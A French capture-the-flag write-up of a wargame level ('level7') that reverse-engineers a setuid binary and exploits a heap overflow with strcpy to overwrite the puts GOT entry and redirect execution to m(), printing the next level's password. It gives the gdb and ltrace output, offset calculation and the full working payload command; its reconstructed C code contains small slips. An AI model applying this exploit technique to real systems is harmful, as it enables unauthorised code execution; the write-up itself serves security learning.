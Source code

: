 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2024(level7) gid=2024(level7) groups=2024(level7),100(users)
/home/user/level7
total 17
dr-xr-x---+ 1 level7 level7   80 Mar  9  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level7 level7  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level7 level7 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level8 users  5648 Mar  9  2016 level7
-rw-r--r--+ 1 level7 level7   65 Sep 23  2015 .pass
-rw-r--r--  1 level7 level7  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level7 :

```bash
$ ./level7
Segmentation fault (core dumped)
$ ./level7 da
Segmentation fault (core dumped)
$ ./level7 da b
~~
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=41a50d3a-4820-48a6-93d8-d314911b1399) et en extrait une version probable du code :

```c
struct file {
    int id;
    void *ptr;
};

char string[80];

void m() {
    printf("%s - %d\n", string, time(0));
    return;
}

int main(int argc, char **argv)
{
    struct file *buffer1;
    struct file *buffer2;

    buffer1 = malloc(8)
    buffer1->id = 1;
    buffer1->ptr = malloc(8);

    buffer2 = malloc(8);
    buffer2->id = 2;
    buffer2->ptr = malloc(8);

    strcpy(buffer2->ptr, argv[1]);
    strcpy(buffer2->ptr, argv[2]);

    fgets(string, 68, fopen("/home/user/level8/.pass", "r"));

    puts("~~");
    
    return 0;
}
```

Je note :

- l'usage de `strcpy()` qui peut présenter une vulnérabilité comme dans le level précédent.
- l'usage de `fgets()` qui à priori est comme précédamment, non exploitable.
- un `puts()` sans importance, à priori.

Je travaille, comme dans le précédent niveau, avec la `heap` étant donné la présence des `malloc()`.

Pour comprendre ce que je dois fabriquer comme payload, je décerne ce que fait le binaire :

- Créé deux structure "fichier" de 8 bytes qui contiennent un `id` les représentants, ainsi qu'un pointeur sur la `heap` pointant vers eux.
- Copie dans chacun de ces "fichier" (avec leurs pointeurs) le contenu du premier et second argument respectivement.
- Tente d'ouvrir le fichier `.pass`, en lire les 68 premiers bytes, et les stock dans la variable global 'string'

Je note également :

- Il ne semble pas utiliser la variable `int` de cette structure, cependant elle servira peut-être dans l'exploit
- La fonction `m()` et son `printf()`, qui imprime la valeur de la globale `string`

Après réflexion et en analysant un point de vulnérabilité possible, il me semble évident que `puts()` n'est en fait pas sans importance comme annoncé plus haut. J'en arrive à cette conclusion car c'est la dernière exécution dans le programme avant sa fin, et après avoir obtenu la valeur contenu dans le `.pass`.

Je vais donc employer la même méthode que dans le précédent niveau, mon but va être de changer ce vers quoi le `plt` de `puts()` pointe, afin de le faire pointer vers `m()` et que le `printf()` m'imprime la valeur de `string` après que celui-ci ai été actualisé pour contenir le `.pass`.

Ma méthode pour réaliser cet exploit va être la suivante :

- Au moment du `strcpy()` pour le `buf1->ptr`, je dois lui donner en argument un payload infecté qui overflow la `heap` jusqu'à atteindre la position de `buf2->ptr`.
- Une fois la position du deuxième buffer atteint, je lui fais valoir l'adresse `plt` de `puts()`
- Au moment du `strcpy()` pour le `buf2->ptr`, je manipule alors ce que l'adresse `plt` de `puts()` vaut, et il me suffit de lui faire résoudre à l'adresse de la fonction `m()`.

Je commence par trouver l'adresse de la fonction `m()` avec `gdb` :

```h
$ gdb level7
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:     push   %ebp <----- ici
   0x080484f5 <+1>:     mov    %esp,%ebp
   0x080484f7 <+3>:     sub    $0x18,%esp
    ...
```

Je trouve `m()` -> `0x080484f4`.

Je cherche maintenant l'adresse `plt` de `puts()` :

```h
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928 <------- ici
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
```

Je trouve `puts` -> `0x8049928`.

Il me faut maintenant trouver l'offset à appliquer afin de faire pointer `buf2->ptr` sur `buf1->ptr`.

Comme pour le level 6, j'utilise `ltrace` afin de trouver la distance à "parcourir" dans la `heap` avant d'overflow :

```bash
$ ltrace ./level7 da b
__libc_start_main(0x8048521, 3, 0xbffff7f4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                               = 0x0804a008 (buf1 = malloc(8))
malloc(8)                               = 0x0804a018 (buf1->ptr = malloc(8))
malloc(8)                               = 0x0804a028 (buf2 = malloc(8))
malloc(8)                               = 0x0804a038 (buf2->ptr = malloc(8))
strcpy(0x0804a018, "da")                = 0x0804a018
strcpy(0x0804a038, "b")                 = 0x0804a038
fopen("/home/user/level8/.pass", "r")   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Avec ces informations je trouve le padding en faisant le calcul suivant :

- Je pars de `buf1->ptr` => `0x0804a018`
- J'arrive à `buf2` => `0x0804a028`
- Je trouve [16 bytes](https://www.calculator.net/hex-calculator.html?number1=0804a028&c2op=-&number2=0804a018&calctype=op&x=Calculate)
- Je dois ajouter 4 bytes pour l'`int` qui est déclaré dans la structure
- `16 + 4 = 20` bytes
- J'atteint donc normalement `buf2->ptr`

---

On note l'importance d'inclure les 4 bytes de l'`int` en observant dans la `ltrace` ci-dessus que :

`malloc(8) = 0x0804a028 (buf2 = malloc(8))`
et
`malloc(8) = 0x0804a038 (buf2->ptr = malloc(8))`

Sont séparé de 0x10 (soit 16 bytes). L'adresse que l'on trouve en deuxième (`0x0804a038`) représente le haut des 8 bytes alloués à `buf2->ptr`.
Son adresse avant l'allocation est donc de `0x0804a038` - `0x00000008` soit `0x0804a030`.

Si j'ajoute à l'adresse de `buf2` (`0x0804a028`) 4 bytes (pour représenter `buf2->id`) j'atteint `0x0804a02c` (soit l'adresse de `buf2->ptr`)
et si j'ajoute à nouveau 4 bytes, j'atteint le début des 8 bytes alloués pour `buf2->ptr`, soit `0x0804a030` !

---

Je peux maintenant construire mon payload avec ces 3 informations :

- Adresse de `m()` => `0x080484f4` => `\x08\x04\x84\xf4"[::-1]` en python
- Adresse de `puts@plt` => `0x8049928` => `\x08\x04\x99\x28"[::-1]` en python
- Padding pour `buf1->ptr` => 20 bytes => `\x90" * 20`

Voici à quoi pourrait ressembler le payload :

```python
python -c 'print("\x90" * 20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])
```

Pour résumer, le premier argument va donner une valeur à `buf1->ptr`, je lui donne la valeur de 20 bytes de padding en `NOP` (`\x90`) afin qu'il pointe sur l'adresse de `buf2->ptr`, et je fais équivaloir cette dernière à l'adresse de `puts@plt`.

Le deuxième argument va lui donner une valeur à `buf2->ptr` qui ici, en fait, pointe sur `puts@plt`. Nous allons donc, comme le niveau précédent, changer ce vers quoi pointe `puts()`.

Cela aura pour effet qu'au moment du `fgets()`, la variable globale `string` sera modifiée, puis `m` sera apppelé par le code pensant appeler `puts()`, et imprimera cette valeur.

J'essaye mon payload :

```bash
$ ./level7 `python -c 'print("\x90"*20 + "\x08\x04\x99\x28"[::-1])'` `python -c 'print("\x08\x04\x84\xf4"[::-1])'`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1712765813
```

On voit ici que le `printf()` à bien été imprimé, et je comprend maintenant l'utilité du `time(0)` dans ce dernier. Il permet de vérifier que le projet à bien été réalisé par nos soins !

Je regarde la valeur d'`epoch` actuelle sur [epochconverter.com](https://www.epochconverter.com/) et trouve : `1712765926`
Je soustrais par curiosité les deux valeurs : `1712765926 - 1712765813 = 113`.

Il s'est donc écoulé 113 secondes depuis l'exécution de mon payload et l'écriture du calcul ci-dessus :)



